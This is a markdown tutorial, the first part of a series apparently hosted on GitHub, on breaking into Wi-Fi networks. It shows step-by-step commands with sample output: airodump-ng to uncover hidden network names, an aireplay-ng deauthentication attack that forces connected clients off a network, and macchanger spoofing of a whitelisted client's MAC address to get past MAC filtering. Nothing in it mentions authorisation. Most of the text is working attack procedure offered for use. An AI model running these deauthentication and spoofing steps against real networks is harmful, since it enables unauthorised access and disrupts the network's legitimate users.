

# Wifi-Cracking (Part-1)   

#### [ HIDDEN NETWORKS / MAC FILTERING]
---


In this writeup we are going to learn how to gain access on networks and bypass their security features , we will be covering  following types of networks:

- Target Hidden networks
- Bypass MAC filtering
- Methods to gain access on
  - Captive portals
  - WEP, WPA, WPA2
  - Fake Access Points
  - WPA Enterprise

these are main topics but there are many subtopics in each main topic which we will discuss in depth so just follow us.

Let's begin with **HIDDEN NETWORKS**, a hidden network is one that does not broadcast its name or **ESSID** and problem with this types of networks are we can't connect even they are open networks, the solution to this problem is **airodump-ng** and **deauth auth**

**NOTE : Use your wireless adapter in monitor mode and use your  wireless adapter name in commands  whatever it is in our case we use wlan0**

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

```
simply to identify Hidden networks see **ESSID* field and there will be no name or <length : 0>
in the place so copy its MAC Address and run airodump-ng

```
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```
(Don't quit this operation)

Sometimes just running the airodump-ng  will give you the name of the  network or just use **deauth attack** to anyone of the client which is connected to that network

```bash
root@kali:~# aireplay-ng --deauth 4 -a 63:16:F0:EC:76:F3 -c 33:90:E9:50:A8:F4 wlan0

```
Hit enter after some packet the name of network will be available

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```

Now you get the name we want to connect with this network for this :

**NOTE : You cannot connect any network in monitor mode so reset your wireless adapter to managed mode because monitor mode is only used to capture the packets**

there are many options to do this either use **airmon-ng stop wlan0mon** or **iwconfig wlan0 mode managed** use any of the command as your wish or just simply disconnect your wireless apadter and connect it once again it will do your job and run .

```bash
root@kali:~# service network-manager start

```



Now,
- Go to your wifi options select the options *connect to hidden wifi network*
- select security option and write the name you got.
- It will connect it successfully to a hidden network.

---
##### MAC FILTERING

**NOTE: wireless card in monitor mode**

Another chance you will be not able to connect an open network even if you know it key because that router must be using **mac filtering**, since MAC Address is unique to each network device, Routers can use **mac filtering** to allow/deny devices from connecting based on mac address, it works on :

- Using a blacklist- allow all MACs to connect except the ones in the list
- Using a whitelist- deny all MACs from connecting except ones in the list.

At first lets see how to bypass blacklist method

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-06 10:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN               XOXO

```

Run airodump-ng on that specific network to see clients connected to it

```bash
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```
---

```bash
CH  1 ][ Elapsed: 45 sec ][ 2020-05-06 10:37                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3   80:E9:59:77:4F:99  -33   0 -21      0       9

```
Output suggest that the client with this 80:E9:59:77:4F:99 address is in whitelist thats why it connected to it change your MAC address of wireless card to same as connected client

**NOTE: For connecting network change mode to managed**
(disconnect the card and again connect to machine) and use **macchanger** tool change MAC address

```bash
root@kali:~# ifconfig wlan0 down
root@kali:~# macchanger -m 80:E9:59:77:4F:99 wlan0

```
this command will to do the job see if you get any error or you want to change MAC Address in different way you can do it
Now if you go to wifi-settings and you will be able to connect to it because now you are in the whitelist.


- Link to [Part-2](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP2.md)
- Link to [Part-3](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP3.md)
- Link to [Part-4](https://github.com/noob-atbash/wifi-cracking/edit/master/wifi-crackingP4.md)


**AUTHOR** - [Error](https://github.com/Error-200)
